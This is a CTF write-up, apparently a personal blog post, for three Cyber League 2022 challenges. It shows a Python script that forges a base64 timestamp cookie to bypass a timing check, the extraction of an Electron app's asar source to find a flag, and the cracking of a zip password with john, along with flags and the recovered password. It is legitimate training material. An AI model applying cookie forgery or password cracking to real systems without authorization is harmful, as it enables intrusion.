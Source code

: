 ```yaml
---
layout: post
title: Cyber League CTF 2022 - Writeups 🚩
categories:
- CTF
- Web-exploitation
tags:
- CTF
- Web-exploitation
- Forensics
- Cyber-League
date: 2022-05-02 10:16 +0800
---
```


> Didn't really have much time to tackle a lot of the challenges with this CTF and only managed to pwn 3 of them. A big shoutout to my team mates Mocha and Dante for a lot of initial enumerations! I just mainly followed their leads 😅

## Simulated bomb drill

This is the first challenge for the web category in cyber league's CTF. A web endpoint is given for us to start enumerating. When you first hit the main page you are issued a base64 encoded cookie that contains the time in the following format. And at the same time an imaginary bomb timer countdown starts.

![cookie](https://bn1304files.storage.live.com/y4mSu5_wHVLBsroBYQUT9z97CIOX7BLmmwLCzSZhe_sArd5JxbUMIiMDl2K8Q3IXyFsXcjcSbzcholSUdVS-27Ley7PHhZ4KOi6DakV7SyUH-VEbfN6-vyKfSb_EzWxYAKbV8wdjinV1r2p6gDtPw7ewWrHjwmZR2V_DXI2cT-YN0OwDXizBEpOAHs1IoZyYsN2?width=2872&height=936&cropmode=none)

```txt
2022-05-01 12:41:35.329922
```

By the time we visit the `/defuse` endpoint, it would be too late and the bomb would have been blown. The bomb needs to be defused with 0 microseconds passed. So it is physically impossible to do this by hand. The algorithm to get the flag endpoint is as below.

1. Decode the base64 time from cookie
2. Measure the time elasped from the first request
3. Minus off the time elasped from the cookie time
4. Encode the new time into the cookie and send the request

We can code the above steps as below in python.

```python
import requests
import base64

s = requests.Session()

res = s.get('http://13.213.72.54:5003/')

# Get time elapsed in microseconds
time_elapsed = res.elapsed
time_elapsed = time_elapsed.total_seconds()
print(res.elapsed)
# 0:00:00.019976


time_to_decode = s.cookies.get_dict()['princesspeach']
decoded_datetime = base64.b64decode(time_to_decode).decode('utf-8')
# '2022-05-01 12:41:35.329922'
decoded_time = decoded_datetime.split('.')
# ['2022-05-01 12:41:35', '308641']
decoded_microseconds = decoded_datetime.split('.')[1]
# '329922'
decoded_microseconds_in_seconds = int(decoded_microseconds)/1000000
# 0.329922

new_time = decoded_microseconds_in_seconds - time_elapsed
new_time_in_microseconds = int(new_time * 1000000)
# 308641

decoded_time[1] = str(new_time_in_microseconds)

to_encode = ''.join(decoded_time)
# '2022-05-01 12:41:35308641'
encoded_time = base64.b64encode(bytes(to_encode, 'utf-8'))
# b'MjAyMi0wNS0wMSAxMjo0MTozNTMwODY0MQ=='

s.cookies['princesspeach'] = encoded_time
res = s.get('http://13.213.72.54:5003/defuse')
print(res.content)

""" >>> print(res.content)
b'<!DOCTYPE html>\n<html>\n<head>\n <title></title>\n <meta charset="utf-8" />\n</head><body>\n<div class="bd-example" align="middle">\n\n<img src="/static/712a8b4446afb5d43da0dea63cd1c13b.jpg"align="middle" />\n\n</div>\n</body>\n</html>' """
```

We managed the get the flag endpoint like below.

```html
<img src="/static/712a8b4446afb5d43da0dea63cd1c13b.jpg"align="middle" />
```

Visit the endpoint and you will be able to get the flag.

![flag](https://bn1304files.storage.live.com/y4mZLD6Ua4apnvDZjqDKWnzRFYFCsqkIm-c1GpA0_AMbdm8vp3qwR27yEkIssKJ7iVkcQPPeGryziw-4e9dC8ijsw2-9RCFGbeAh2HgFtWampNx94gZwH8shXi-siMMX_zED4XYBtEAK_3YmXvxVFxWW57iEateBhtfOiB2jNQvlDfcHdMH56ycnRwfyLyml9sL?width=533&height=496&cropmode=none)

## Write farewell letters

This challenge is the misc category of the CTF. 3 types of installation files are given with flag hidden. `.dmg` `.exe` and `.appimage`. You simply have to run them to get the binary file to run the application.

The application is doing nothing much but hiding and showing the message as below.

![yoda](https://bn1304files.storage.live.com/y4mZ-4GT0gAj1OIaP2vgKopCFYLmbTMW8CMGiceqQjOIwTQL0jeezJSFWnsU8vNcWb2IA1NLW1WUZeqImILtFu6mtkrruZJ4DtSDBnp1koFd2k53r1e21PRsADdcbgQcWy8qldFQYQxq27_IYZb1rMjxFepvAyrMrl09F1yJoxynd_FY1QcFtynnFrzfwDQdO1k?width=1134&height=1344&cropmode=none)

I had my suspicioun that this could be an electron app. To decompile it we can use npm's asar to extract the source code. Below is the capture of how i extracted out the electron source code.

```bash
➜  cyleague cd peekaboo.app 
➜  peekaboo.app cd Contents 
➜  Contents cd Resources 
➜  Resources ls
am.lproj      de.lproj      fi.lproj      id.lproj      mr.lproj      ro.lproj      te.lproj
app.asar      el.lproj      fil.lproj     it.lproj      ms.lproj      ru.lproj      th.lproj
ar.lproj      en.lproj      fr.lproj      ja.lproj      nb.lproj      sk.lproj      tr.lproj
bg.lproj      en_GB.lproj   gu.lproj      kn.lproj      nl.lproj      sl.lproj      uk.lproj
bn.lproj      es.lproj      he.lproj      ko.lproj      peekaboo.icns sr.lproj      vi.lproj
ca.lproj      es_419.lproj  hi.lproj      lt.lproj      pl.lproj      sv.lproj      zh_CN.lproj
cs.lproj      et.lproj      hr.lproj      lv.lproj      pt_BR.lproj   sw.lproj      zh_TW.lproj
da.lproj      fa.lproj      hu.lproj      ml.lproj      pt_PT.lproj   ta.lproj
➜  Resources mkdir decompile-electron
➜  Resources asar extract app.asar decompile-electron 
➜  Resources cd decompile-electron 
➜  decompile-electron code .
```

After decompiling, we open the source code in electron to analyse. From root folder navigate to js folder to index.js as below.

```In js > index.js```

```javascript
var visibilitySetting = 'hidden'

function load() {
    document.getElementById('showButton').innerHTML = 'show'
}

function showVersions() {
    if (visibilitySetting === 'visible') {
        visibilitySetting = 'hidden'
        document.getElementById('versions').style.visibility = 'hidden'
        document.getElementById('showButton').innerHTML = 'show'
    }
    else {
        visibilitySetting = 'visible'
        document.getElementById('versions').style.visibility =' visible'
        document.getElementById('showButton').innerHTML = 'hide'
    }
}

function shinyKnob() {
    console.log('CYBERLEAGUE{7h3_cu73n355_15_5720n9_w17h_7h15_0n3}')
}
```

## Understand space politics

This is a forensics challenge where challengers are given a `.7z` file with flag text underneath. The challenge is straightfoward to crack the zip file password to get the flag. Below is the capture of using zip2john to crack the zip file.

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ zip2john hello_there.zip > ziphashes
ver 2.0 hello_there.zip/hello_there.txt PKZIP Encr: cmplen=41, decmplen=29, crc=87D14E54 ts=A8AF cs=87d1 type=0
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ cat ziphashes 
hello_there.zip/hello_there.txt:$pkzip$1*1*2*0*29*1d*87d14e54*0*2d*0*29*87d1*8facba0e3e10e650ad9dc1fc89e000dfcff60fe4858a519eb33e8f1f9380a9633f39729fb0e101c9eb*$/pkzip$:hello_there.txt:hello_there.zip::hello_there.zip
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ john ziphashes 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
2hot4u           (hello_there.zip/hello_there.txt)     
1g 0:00:00:02 DONE 3/3 (2022-05-01 09:13) 0.3521g/s 2067Kp/s 2067Kc/s 2067KC/s cjjlip..2hul83
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The password is `2hot4u` to extract out the flag.

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ unzip hello_there.zip 
Archive:  hello_there.zip
[hello_there.zip] hello_there.txt password: 
 extracting: hello_there.txt         
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ cat hello_there.txt 
CYBERLEAGUE{Y0U_Fo|_|nD_3e!}
```
